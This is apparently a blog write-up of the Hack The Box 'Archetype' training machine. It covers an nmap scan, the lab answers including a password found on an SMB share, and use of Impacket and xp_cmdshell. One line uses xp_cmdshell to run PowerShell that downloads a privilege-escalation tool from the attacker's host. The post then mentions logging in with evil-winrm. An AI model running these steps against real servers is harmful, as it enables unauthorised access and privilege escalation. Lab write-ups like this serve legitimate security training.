 ```yaml
---

title: HTB [Archtype]

date: 2022-09-25 11:28:05 +0200

categories: [windows,smb,mssql,winpeas]

tags: [HTB Starting point]

---
```


## Archtype

![](https://i.imgur.com/CL1WkMf.png)

### Nmap scan

```js
Nmap scan report for 10.129.94.188
Host is up (0.43s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ssl-date: 2022-09-25T04:12:07+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-09-25T03:57:39
|_Not valid after:  2052-09-25T03:57:39
| ms-sql-ntlm-info:
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| ms-sql-info:
|   10.129.94.188:1433:
|     Version:
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h24m00s, deviation: 3h07m52s, median: 0s
| smb2-time:
|   date: 2022-09-25T04:11:48
|_  start_date: N/A
| smb-os-discovery:
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-09-24T21:11:52-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.48 seconds
```

#### Task 1
**Which TCP port is hosting a database server?**

`1433`


#### Task 2
**What is the name of the non-Administrative share available over SMB?**

`backups`

![](https://i.imgur.com/YXuztRL.png)



#### Task 3
**What is the password identified in the file on the SMB share?**

`M3g4c0rp123`

![](https://i.imgur.com/dXMtYoU.png)

![](https://i.imgur.com/0IzxCI2.png)

you can find a password in that `prod.dtsConfig` file



#### Task 4

**What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?**

that's `mssqlclient.py`


#### Task 5

**What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?**

`xp_cmdshell`

![](https://i.imgur.com/Iq7zVka.png)
- you need to `enable_xp_cmdshell` in order to use it  
- you can find more info about mssql enumeration[here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)



#### Task 6

**What script can be used in order to search possible paths to escalate privileges on Windows hosts?**

`winpeas`

- Now let's start a python server in local to transfer the winpeas to the machine

```powershell
xp_cmdshell "powershell -c curl -o C:\Users\sql_svc\Downloads\priv.exe http://10.10.16.18/winPEASx86.exe"
```


#### Task 7

**What file contains the administrator's password?**

`ConsoleHost_history.txt`

- Run winpeas

![](https://i.imgur.com/YLmlvFH.png)
- Let's look into this file

![](https://i.imgur.com/mFI3Klu.png)

- Now login with evil winrm and submit the flags

![](https://i.imgur.com/eTyzVOT.png)

- That's all!!
